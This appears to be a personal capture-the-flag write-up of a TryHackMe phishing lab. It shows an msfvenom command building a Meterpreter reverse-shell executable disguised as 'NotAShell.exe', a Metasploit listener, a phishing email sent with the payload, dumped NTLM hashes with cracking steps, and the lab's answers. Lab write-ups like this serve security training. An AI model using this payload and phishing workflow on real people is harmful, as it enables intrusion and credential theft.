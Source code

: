 # Gone Phishing

Although I skimmed over the first two room of the five part series on Phishing on THM it seems that this lab has cool emulate-a-regular-user-bot that downloads malicious software for us. 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=53 -f exe -o NotAShell.exe
```

While in the background I run brutespray, just like *always recon in the background* you there is also password spraying or sqlmap in the background. Making a payload with msfvenom:  
![gp-payload](Screenshots/gp-payload.png)

Setting a listener in metasploit multi/handler:  

![gp-listener](Screenshots/gp-mutlihandler.png)

Before starting to copy and paste "compose the correct email for the bot to download our reverse shell", quick script to format the `To:`  field of the phishing email. Using some bash, to awk for the 4th field of contacts.txt which is just the address book from the thbguest email, printing out all the email address then pipe to translate with the substitution flag to replace newline chars with a comma and whitespace:
```bash
awk '{print $4}' contacts.txt | tr -s "\n" ", "
```

The result:
![gp-awking](Screenshots/gp-bash-magic.png)

Now to construct the rest of the email:

![gp-bigphish](Screenshots/gp-big-phish.png)

Attach before sending:

![gp-attach](Screenshots/gp-attachit.png)

And then..
![gp-bigcatchy](Screenshots/gp-thecatch.png)

Instantly loaded kiwi and then enumerating the box
![gp-landed](Screenshots/gp-ws-is-online.png)

Root flag and use of the search just for showcasing and timing how long search takes. One thing that I have discover going back to Windows as a hacker is that searching the filesystem is mindblobblingly slow.
![gp-landed](Screenshots/ws-root-flag.png)
![gp-humpty](Screenshots/gp-user-flag.png)
Then I migrated process to one owned by the NT AUTHORITY and dumped the hashes:

```toggle
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BlaireJ:1001:aad3b435b51404eeaad3b435b51404ee:c374ecb7c2ccac1df3a82bce4f80bb5b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1002:aad3b435b51404eeaad3b435b51404ee:50527b4bfe81a64edf00e6b05c26c195:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0a06b1381599f2c8c8bfdbee39edbe1c:::
```

Then I cracked the hashes after first using some more awk-some awk command with -F for field seperator ":" which select fields or sections of text by a demiliter or symbol that seperates the fields:
```bash
cat hashesWS1 | awk -F : '{print $4}' > WS1hashes
```
![gp-hashcrackin](Screenshots/pg-hashcrackin.png)

## Answers 
What User was compromised via Phishing?
```{toggle}
BlaireJ
```
What Machine was compromised during Phishing?
```{toggle}
 THROWBACK-WS01
```